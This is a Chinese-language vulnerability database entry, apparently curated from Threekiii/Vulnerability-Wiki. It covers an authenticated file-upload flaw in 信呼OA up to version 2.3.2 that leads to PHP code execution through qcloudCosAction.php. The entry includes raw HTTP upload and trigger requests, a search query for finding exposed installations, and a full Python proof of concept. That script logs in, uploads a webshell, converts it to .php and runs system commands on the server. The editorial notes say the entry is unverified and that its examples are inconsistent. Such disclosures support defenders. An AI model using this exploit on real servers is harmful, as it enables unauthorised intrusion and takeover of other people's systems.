

# 信呼OA qcloudCosAction.php上传暂存文件转换执行

## 条目说明

- 对象与具体问题：信呼OA；qcloudCosAction.php上传暂存文件转换执行
- 版本、配置及部署条件：<=2.3.2；上传+qcloudCos任务调用链
- 认证与权限前提：明确需要账号口令
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- multipart Content-Type boundary断行损坏需恢复
- 文字把task.php调用说成查看上传是否成功，实为关键转换/处理步骤，需解释根因
- 示例phpinfo文件与脚本末尾webshell参数不一致；不要当作同一验证

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

信呼 OA <=v2.3.2 版本在`webmain\task\runt\qcloudCosAction.php`云存储下调用了`qcloudCosClassAction`方法，导致文件上传漏洞。通过该漏洞，攻击者可突破上传限制，上传 php 文件获取服务器shell。

利用前提是已经获取了用户名/登陆口令。

参考链接：

- https://github.com/rainrocka/xinhu

### 漏洞影响

```
信呼OA <= 2.3.2
```

### 网络测绘

```
app="信呼协同办公系统"
```

### 漏洞复现

登陆页面：




登陆系统，找到上传点：

```
任务资源 → 文件传送 → 相关文件
```

上传1.php，记录filepath和id：

```http
POST /index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=769871 HTTP/1.1
Host: www.xinhu2.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type:multipart/form-data; boundary=
---------------------------40605609116060410203660967062
Content-Length: 250
Origin: http://www.xinhu2.com
Connection: close
Referer:http://www.xinhu2.com/index.php?m=upload&d=public&callback=&upkey=20220513091317429617&showid=fileidview
Cookie:deviceid=1650359786139;xinhu_mo_adminid=ye0xhh0xte0lp0yy0xtj0xtb0xtv0yy0xxt0jt0xtb0ye0yx0yp0le03;xinhu_ca_adminuser=admin;xinhu_ca_rempass=0;PHPSESSID=h************************7
-----------------------------40605609116060410203660967062
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

-----------------------------40605609116060410203660967062--
```

查看1.php是否上传成功：

```http
GET /task.php?m=qcloudCos|runt&a=run&fileid=9 HTTP/1.1
Host: www.xinhu2.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: deviceid=1650359786139; xinhu_mo_adminid=ye0xhh0xte0lp0yy0xtj0xtb0xtv0yy0xxt0jt0xtb0ye0yx0yp0le03; xinhu_ca_adminuser=admin; xinhu_ca_rempass=0; PHPSESSID=h************************7
Upgrade-Insecure-Requests: 1
```

上传后路径：

```
http://<IP>/upload/2024-01/23_16071247.php
```

### 漏洞POC

poc.py

```python
# 1.php为webshell

# 需要修改以下内容：
# url_pre = 'http://<IP>/'
# 'adminuser': '<ADMINUSER_BASE64>',
# 'adminpass': '<ADMINPASS_BASE64>',

import requests

session = requests.session()
url_pre = 'http://<IP>/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
# url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=<ID>'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': '<ADMINUSER_BASE64>',
    'adminpass': '<ADMINPASS_BASE64>',
    'yanzm': ''    
}

r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
print(filepath)
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
